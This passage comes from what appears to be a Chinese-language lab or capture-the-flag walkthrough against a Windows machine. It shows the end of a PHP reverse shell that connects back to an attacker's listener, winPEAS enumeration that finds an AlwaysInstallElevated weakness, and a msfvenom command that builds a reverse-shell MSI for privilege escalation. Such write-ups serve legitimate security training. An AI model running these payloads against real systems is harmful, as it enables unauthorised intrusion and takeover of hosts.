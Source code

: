```
                            }
                        }
                    }
                    while (!$this->e);
                    foreach ($pps as $pp)
                    {
                        fclose($pp);
                    }
                    proc_close($proc);
                }
                fclose($soc);
            }
        }
    }
}
echo '<pre>';
$sh = new Sh('ip', port);
$sh->rn();
echo '</pre>';
unset($sh); /*@gc_collect_cycles();*/ ?>
```

![image-20210521151121305](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521151121305.png)



![image-20210521151251958](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521151251958.png)

攻击机提前开启监听，save之后拿到shell

![image-20210521151351620](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521151351620.png)

## 提权

使用winpeas查找提权漏洞，首先通过下方链接下载，之后上传到目标机器，（可以通过蚁剑上传或者开启http服务curl下载）

```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
```

之后执行winpeasx64.exe,

![image-20210521152235335](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210521152235335.png)

有个AlwaysInstallElevated的漏洞

```
https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated
```

通过msfvenom生成反弹shell msi程序

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ip LPORT=port -f msi -o reverse.msi
```
